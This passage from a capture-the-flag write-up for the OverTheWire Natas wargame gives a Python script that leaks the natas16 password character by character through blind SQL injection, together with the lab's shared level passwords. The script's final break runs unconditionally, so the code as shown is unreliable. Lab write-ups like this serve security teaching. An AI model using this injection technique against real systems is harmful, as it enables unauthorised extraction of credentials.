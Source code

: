 The code for all of the aforementioned operation:

```python
import string 
import requests 

alphanumeric = list(string.ascii_lowercase + string.ascii_uppercase + string.digits)
charset = ""
password = ""
target = 'http://natas15.natas.labs.overthewire.org'

# Generating the charset for the brute forcing
for char in alphanumeric:
    username = 'natas16" and password like binary "%' + char + '%'
    r = requests.get(target, 
        auth=('natas15', 'TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB'),
        params={"username": username}
        )
    if "This user exists" in r.text:
        charset += char

print("The charset used is: " + charset)

# Guessing every position in the password string 
# As the type of password is varchar(64), just to be safe the loop runs 64 times for 64 possible positions
for i in range(64):
    for char in charset:
        guess = password + char
        username = 'natas16" and password like binary "' + guess + '%'
        r = requests.get(target, 
            auth=('natas15', 'TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB'),
            params={"username": username}
            )
        if "This user exists" in r.text:
            password += char 
            print("Iteration " + str(i + 1) + ": " + guess)
            break 
    
    # No more addition of characters is possible, 
    # hence the password we have is indeed the password for this level
    print("The final password is: " + password)
    break 
```

natas16: `TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V`

# Natas 16

Same idea as above, we will try to leak the password character by character. But the trick used here is "disgustingly" neat. 
